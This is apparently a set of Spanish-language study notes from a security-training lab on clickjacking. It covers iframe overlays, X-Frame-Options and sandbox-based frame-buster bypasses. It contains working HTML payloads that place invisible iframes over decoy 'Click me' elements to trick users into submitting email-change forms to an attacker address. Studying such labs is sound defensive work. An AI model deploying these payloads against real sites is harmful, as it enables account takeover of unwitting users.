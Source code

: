 # Clickjacking

## Basic clickjacking with CSRF token protection

Un iframe permite cargar una pagina encima de otra de aqui proviene esta vulnerabilidad que se engaña al usuario a que haga clic en 
un lugar donde no deberia haciendo el iframe trasparente. SOlo funciona si las paginas permiten iframes si los iframe are allow( frame en ingles els cuadro marco)

```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="AQUI PON LA URL LA CUAL SE VA PONER ENSIMA EL DIV></iframe>

```
## Clickjacking with form input data prefilled from a URL parameter

Es basicamente lo mismo del ejemplo pero  cargando datos para cambiar el email 

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:60px;
        z-index: 1;
    }
</style>
<div>CLICK ME</div>
<iframe src="https://0a96006303e0a89fc01f20c700340002.web-security-academy.net/my-account/?email=hacker@attacker-website.com"></iframe>
```

## Clickjacking with a frame buster script

Se crearon protecciones para evitar esto una de ellas es la cabecera X-Frame-Options:

>The server-side header X-Frame-Options can permit or forbid displaying the page inside a frame.

It must be sent exactly as HTTP-header: the browser will ignore it if found in HTML <meta> tag. So, <meta http-equiv="X-Frame-Options"...> won’t do anything.

The header may have 3 values:

DENY
Never ever show the page inside a frame.

Otra medida de seguridad es el Sandbox attribute 

>One of the things restricted by the sandbox attribute is navigation. A sandboxed iframe may not change top.location.

> So we can add the iframe with sandbox="allow-scripts allow-forms". That would relax the restrictions, permitting scripts and forms. But we omit allow-top-navigation so that changing top.location is forbidden.


> https://javascript.info/

Para este ejemplo se uso sandbox="allow-forms" para desactivar las protecciones.

```

<style>
    iframe {
        position:relative;
        width:700px;
        height: 600px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a1b004903f71dc0c0795dd000a8006a.web-security-academy.net/my-account/?email=hacker@attacker-website.com"></iframe>

```
## Lab: Clickjacking with form input data prefilled from a URL parameter

### Autocomplete de formulario

<img width="669" alt="image" src="https://github.com/user-attachments/assets/db0f76b3-426b-4cf4-b5bf-b3fb2b22971f" />


En este ejemplo el auto completar se encontraba activo del formulario entonces tu visitando la url

```
https://0a1a002003d98033b1aee474009a0090.web-security-academy.net/my-account?email=masa300@gmail.com
```
Puedes automaticamente llenar el campo email.

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a1a002003d98033b1aee474009a0090.web-security-academy.net/my-account?email=masa3@gmail.com"></iframe>
```


